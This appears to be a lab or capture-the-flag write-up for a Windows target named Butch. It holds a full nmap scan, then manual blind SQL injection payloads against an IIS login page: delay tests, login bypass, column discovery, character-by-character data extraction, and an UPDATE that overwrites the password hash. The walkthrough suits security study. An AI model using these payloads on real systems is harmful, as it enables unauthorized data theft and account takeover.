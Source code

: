 #### Mind map

![Butch](https://user-images.githubusercontent.com/8998412/158007932-e61409eb-080e-48b8-b874-5d395cd7d659.png)

#### Enumeration

```
# Nmap 7.92 scan initiated Sun Feb 27 04:50:54 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/xml/_full_tcp_nmap.xml 192.168.184.63
Nmap scan report for 192.168.184.63
Host is up, received user-set (0.30s latency).
Scanned at 2022-02-27 04:50:54 EST for 477s
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
25/tcp   open  smtp          syn-ack ttl 127 Microsoft ESMTP 10.0.17763.1
| smtp-commands: butch Hello [192.168.49.184], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
450/tcp  open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Butch
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=2/27%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=621B4B5B%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=U)
OPS(O1=M54ENW8NNS%O2=M54ENW8NNS%O3=M54ENW8%O4=M54ENW8NNS%O5=M54ENW8NNS%O6=M54ENNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54ENW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-27T09:58:14
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51234/tcp): CLEAN (Timeout)
|   Check 2 (port 45630/tcp): CLEAN (Timeout)
|   Check 3 (port 37138/udp): CLEAN (Timeout)
|   Check 4 (port 14133/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 1s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   295.76 ms 192.168.49.1
2   295.78 ms 192.168.184.63

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 04:58:51 2022 -- 1 IP address (1 host up) scanned in 477.73 seconds

```

I find the website that runs on port 450 has SQL injection vulnerability by using the waiting test.

```SQL
'; WAITFOR DELAY '00:00:10'; --
```
![image](1)

Attempts to log in using the usernames ```admin``` and ```administrator``` failed.

```SQL
' or 1=1; --
```

![image](2)

Because we can't use automatic exploitation tools in the exam, I start doing it manually.

First, we must know the name of the field.

```SQL
' HAVING 1=1; --
```

![image](3)

```SQL
' GROUP BY users.username HAVING 1=1; --
```

![image](4)

```SQL
' GROUP BY users.username, users.password_hash HAVING 1=1; --
```

![image](5)

Now we know that the data table users has two fields username and password_hash.

Check how many data are in the data table users. We can see from the query below that there is only one data.

```SQL
'; IF (SELECT COUNT(*) FROM users) = 1 WAITFOR DELAY '00:00:05'; --
```
Finding the username ```butch```.

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 97) WAITFOR DELAY '00:00:05'; --
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 98) WAITFOR DELAY '00:00:05'; -- and so on
```

Guessing the length of the password by the command below.

```SQL
'; IF (SELECT LEN(password_hash) FROM users) > 10 WAITFOR DELAY '00:00:05'; -- and so on
```

Finally, we know that the password length is 64, so it may have been hashed. Because of the length of the password so I guessed that may use SHA-256 hash.

![image](6)

Now we update the password.

```SQL
'; UPDATE users SET password_hash = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WHERE user = 'butch'; -- 123456
'; IF (SELECT TOP 1 password_hash FROM users) = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WAITFOR DELAY '00:00:05'; -- check if update is successful
```
